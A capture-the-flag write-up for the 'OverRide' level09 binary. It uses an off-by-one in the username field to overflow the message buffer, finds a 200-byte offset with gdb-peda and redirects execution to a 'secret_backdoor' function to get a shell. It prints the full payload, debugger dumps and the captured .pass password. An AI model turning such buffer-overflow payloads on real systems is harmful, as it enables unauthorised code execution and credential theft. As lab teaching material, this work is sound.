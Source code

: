 # Overflow input

we have a programme that need to receive a username and message. The username have 40 length but boucle on 41. So we can overflow the username.

```bash
level09@OverRide:~$ ./level09 <<<$(python -c 'print "B"*40+"\xff"')
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)
```

to get more info on segfault we will download the executable and use gdb-peda to get more info on the segfault.

```bash
gdb-peda$ r <<<$(python -c 'print "B"*40+"\xff"+"\n"+"aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"')
Starting program: /home/alesio/Documents/42/override/exe/level09 <<<$(python -c 'print "B"*40+"\xff"+"\n"+"aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"')
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0xd ('\r')
RBX: 0x555555554ad0 (<__libc_csu_init>:	mov    QWORD PTR [rsp-0x28],rbp)
RCX: 0x7ffff7ecd057 (<__GI___libc_write+23>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x5555557572a0 (">>: >: Msg sent!\n", 'B' <repeats 39 times>, "\377>: Msg @Unix-Dude\n")
RDI: 0x7ffff7faa4c0 --> 0x0 
RBP: 0x5858585857575757 ('WWWWXXXX')
RSP: 0x7fffffffded8 ("YYYYZZZZ\n")
RIP: 0x555555554931 (<handle_msg+113>:	ret)
R8 : 0xd ('\r')
R9 : 0x0 
R10: 0xfffffffffffff27f 
R11: 0x246 
R12: 0x555555554790 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdfd0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555554924 <handle_msg+100>:	
    lea    rdi,[rip+0x295]        # 0x555555554bc0
   0x55555555492b <handle_msg+107>:	call   0x555555554730 <puts@plt>
   0x555555554930 <handle_msg+112>:	leave  
=> 0x555555554931 <handle_msg+113>:	ret    
   0x555555554932 <set_msg>:	push   rbp
   0x555555554933 <set_msg+1>:	mov    rbp,rsp
   0x555555554936 <set_msg+4>:	sub    rsp,0x410
   0x55555555493d <set_msg+11>:	mov    QWORD PTR [rbp-0x408],rdi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffded8 ("YYYYZZZZ\n")
0008| 0x7fffffffdee0 --> 0xa ('\n')
0016| 0x7fffffffdee8 --> 0x0 
0024| 0x7fffffffdef0 --> 0x0 
0032| 0x7fffffffdef8 --> 0x0 
0040| 0x7fffffffdf00 --> 0x0 
0048| 0x7fffffffdf08 --> 0x0 
0056| 0x7fffffffdf10 --> 0x555555554ad0 (<__libc_csu_init>:	mov    QWORD PTR [rsp-0x28],rbp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000555555554931 in handle_msg ()
```

we can see the RSP at 0x7fffffffded8 with string "YYYYZZZZ\n". let's try to get the offset with the script get_offset.py

```bash
➜  Ressources git:(level09) ✗ python3 get_offset.py W
offset -> 200
```

we can found in the code a function named secret_backdoor

```bash
(gdb) info func 
All defined functions:

Non-debugging symbols:
0x00005555555546f0  _init
0x0000555555554720  strncpy
0x0000555555554720  strncpy@plt
0x0000555555554730  puts
0x0000555555554730  puts@plt
0x0000555555554740  system
0x0000555555554740  system@plt
0x0000555555554750  printf
0x0000555555554750  printf@plt
0x0000555555554760  __libc_start_main
0x0000555555554760  __libc_start_main@plt
0x0000555555554770  fgets
0x0000555555554770  fgets@plt
0x0000555555554780  __cxa_finalize
0x0000555555554780  __cxa_finalize@plt
0x0000555555554790  _start
0x00005555555547bc  call_gmon_start
0x00005555555547e0  __do_global_dtors_aux
0x0000555555554860  frame_dummy
0x000055555555488c  secret_backdoor
0x00005555555548c0  handle_msg
0x0000555555554932  set_msg
---Type <return> to continue, or q <return> to quit---^CQuit
```

we can see the first letter of RSP on the segfault is at the position 200. so let's see the structure of our exploit

`overflow_username + max_char_to_be_sur_overflow + change_input + overflow offset of segfault on RSP + function_exploited + change_input + path_shell + execute_input_in_function`


`python -c 'print "B"*40+"\xff"+"\n"+"B"*200+"\x8c\x48\x55\x55\x55\x55\x00\x00"+"\n"+"/bin/sh"+"\n"'`


```bash
level09@OverRide:~$ (python -c 'print "B"*40+"\xff"+"\n"+"B"*200+"\x8c\x48\x55\x55\x55\x55\x00\x00"+"\n"+"/bin/sh\n"'; cat) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
^C
Segmentation fault (core dumped)
```
